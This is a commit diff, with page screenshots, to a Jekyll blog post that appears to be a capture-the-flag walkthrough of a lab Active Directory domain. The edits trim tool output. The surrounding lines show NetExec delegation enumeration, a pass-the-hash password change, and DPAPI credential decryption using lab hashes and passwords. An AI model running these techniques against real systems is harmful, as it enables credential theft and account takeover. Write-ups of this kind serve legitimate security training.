

Before and after one commit to thesecretmyth/thesecretmyth.github.io, a Jekyll site: the page built from _posts/2026-09-17-dead-men-tell-no-spns.md, in a window 1280 px wide and 900 px high, scrolled down 8109 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
dead-men-tell-no-spns

````diff
--- a/_posts/2026-09-17-dead-men-tell-no-spns.md
+++ b/_posts/2026-09-17-dead-men-tell-no-spns.md
@@ -368,8 +368,7 @@
 ➜ nxc ldap blackpearl.pirates.brb \
     -u 'morgan' -p 'Entry369@!*' --find-delegation
 
-LDAP        192.168.10.10   389    BLACKPEARL       [*] Windows Server 2022 Build 2022 Build 20348 (name:BLACKPEARL) (domain:PIRATES.BRB) (signing:None) (channel binding:No TLS cert)
-LDAP        192.168.10.10   389    BLACKPEARL       [+] PIRATES.BRB\morgan:Entry369@!*
+...[snip]...
 LDAP        192.168.10.10   389    BLACKPEARL       AccountName AccountType DelegationType DelegationRightsTo
 LDAP        192.168.10.10   389    BLACKPEARL       ----------- ----------- -------------- -------------------------------
 LDAP        192.168.10.10   389    BLACKPEARL       QUEENREV$   Computer    Constrained    host/FLYINGDUTCHMAN.PIRATES.BRB
@@ -474,9 +473,8 @@
 ➜ nxc smb blackpearl.pirates.brb \
     -u 'morgan' -H '52bb96aecbcfe774799a60da76212a54' \
     -M change-password -o NEWNTHASH='b03b513de8ffc8ed466601a40f0fb044'
-SMB         192.168.10.10   445    BLACKPEARL       [*] Windows Server 2022 Build 20348 x64 (name:BLACKPEARL) (domain:PIRATES.BRB) (signing:True) (SMBv1:False) (Null Auth:True) (DC:True)
-SMB         192.168.10.10   445    BLACKPEARL       [+] PIRATES.BRB\morgan:52bb96aecbcfe774799a60da76212a54
-CHANGE-P... 192.168.10.10   445    BLACKPEARL       Note: Target user must change password at next logon.
+
+...[snip]...
 CHANGE-P... 192.168.10.10   445    BLACKPEARL       [+] Successfully changed password for morgan
 ```
 
@@ -572,6 +570,7 @@
 
 ➜ dpapi.py credential -file "82D585BFBAA099ADDEA463533658FDBA" \
     -ck b7f909dbfe450c597454fcdb6775a988662e0446
+
 [*] Target: LegacyGeneric:target=smb.queenrev
 [*] User: ironhook
 [*] Password: brb{5d26ec0024167fdf8a45a70eff4ade36}
````
Also changed, not shown: other parts of _posts/2026-09-17-dead-men-tell-no-spns.md (+1 -2 lines).
